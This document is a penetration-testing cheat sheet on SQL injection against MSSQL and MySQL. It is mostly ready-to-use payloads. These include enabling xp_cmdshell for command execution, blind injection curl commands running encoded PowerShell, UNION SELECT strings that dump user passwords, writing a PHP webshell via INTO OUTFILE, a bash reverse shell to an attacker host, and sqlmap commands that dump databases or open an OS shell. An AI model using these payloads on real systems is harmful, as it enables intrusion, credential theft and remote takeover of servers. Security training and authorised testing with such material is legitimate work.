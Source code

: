 # SQLi

URL encoding: https://www.urlencoder.io/

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines
```

### Attacks

#### Principle

Function `xp_cmdshell` needs to be activated:
- usage: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
- enabling: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15

Example "locally":
```
kali$ impacket-mssqlclient Administrator:thelocaladminpass@$TargetIp -windows-auth
SQL> execute sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> execute sp_configure 'xp_cmdshell';
SQL> reconfigure;
SQL> execute xp_cmdshell 'whoami';
```
and URL encoded for Burp Suite:
```
'%20execute%20sp_configure%20%27show%20advanced%20options%27%2C%201%3B%20--%20
'%20reconfigure%3B%20--%20
'%20execute%20sp_configure%20%27xp_cmdshell%27%3B%20--%20
'%20reconfigure%3B%20--%20
'%20execute%20xp_cmdshell%20%27whoami%27%3B%20--%20
```

#### In blind mode

Once identified a vulnerable input field (ALWAYS url encoded):
```
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20sp_configure%20...%3b--
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20reconfigure%3b--
...
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20xp_cmdshell%20'powershell%20-enc%20some_long_base64_string_url_encoded'%3b--
```
and listen with nc: `nc -lnvp $some_port_as_in_the_base64_long_string`.

Or sqlmap...

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
%' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '%' union select database(), user(), @@version, null, null -- //'";
SELECT * from customers WHERE name LIKE '' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
The `order by` injection retrieves the table size, then simple `UNION SELECT` test:
```
' union select '1', '2', '3', '4', '5', '6', ... -- //
```

#### Blind injections

Boolean-based, the fake user query gives an empty output:
```
http://$TargetIp/blindsqli.php?user=trueuser' AND 1=1 -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND 1=1 -- //
```

Time-based, the fake user response is immediate (time consuming):
```
http://$TargetIp/blindsqli.php?user=trueuser' AND IF (1=1, sleep(3),'false') -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND IF (1=1, sleep(3),'false') -- //
```

#### Php injection - OS command

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
curl $TargetIp/path/on/target/webshell.php?cmd=id
curl $TargetIp/path/on/target/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
```

## Sqlmap

https://sqlmap.org/

Test for vulnerabilities and dump the database:
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump # time consuming
```

Intercept a `UNION SELECT` in Burp and record the `POST` as a file. Then use sqlmap to get a webshell:
```
sqlmap -r post_request_saved_as_a_file.txt -p some_input_parameter_in_the_post_request --os-shell --web-root "/var/www/html/tmp"
```

## CVE examples

- WordPress plugin Perfect Survey: https://sploitus.com/exploit?id=WPEX-ID:C1620905-7C31-4E62-80F5-1D9635BE11AD
- PostGreSQL RCE: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

